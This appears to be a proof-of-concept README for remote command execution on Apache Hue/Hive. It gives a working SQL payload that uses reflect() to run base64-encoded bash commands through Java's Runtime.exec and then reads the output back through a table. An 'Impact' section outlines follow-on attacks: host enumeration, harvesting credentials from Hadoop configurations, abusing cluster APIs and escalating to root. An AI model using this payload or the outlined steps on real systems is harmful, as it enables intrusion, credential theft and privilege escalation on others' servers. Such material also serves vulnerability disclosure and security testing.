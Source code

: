 # hue-hive-rce
 
## Preparation
```sql
create table workspace_hs.out as select "Hendrik Schultze @ InnoGames";
truncate table workspace_hs.out;
```

## Command and Get Output
```sql
SELECT reflect("java.lang.Runtime", "exec", concat("bash -c {echo,",base64(encode("${cmd} &> /tmp/out", 'UTF-8')),"}|{base64,-d}|{bash,-i}"));
truncate table workspace_hs.out;
LOAD DATA LOCAL INPATH '/tmp/out' INTO TABLE workspace_hs.out;
select * from workspace_hs.out;
```

### Example
![alt text](screen-2020-04-28-11-20-20.png "Usage example")

### Impact
Depending on the user (`hive` or worst case `root`) we can atleast save and run script inside the datacenter from `/tmp`.
Therefore we can use that server as base for future attack, checking the local server (`ss -tulpn`,`ps auxf`, enumeration...). Often the Apache BigData internal systems are not fully protected because they are setup insecure by default.
These allows us to read configurations (potential credentials etc) from the Apache ResourceManage, Apache ZooKepe, etc.
As these BigData stack offers many APIs, we can submit MapRed Jobs, executed on HDFS or connect to Apache Kafka.
Often it is also possible to escale to `root` e.G. with [logrotten](https://github.com/whotwagner/logrotten).
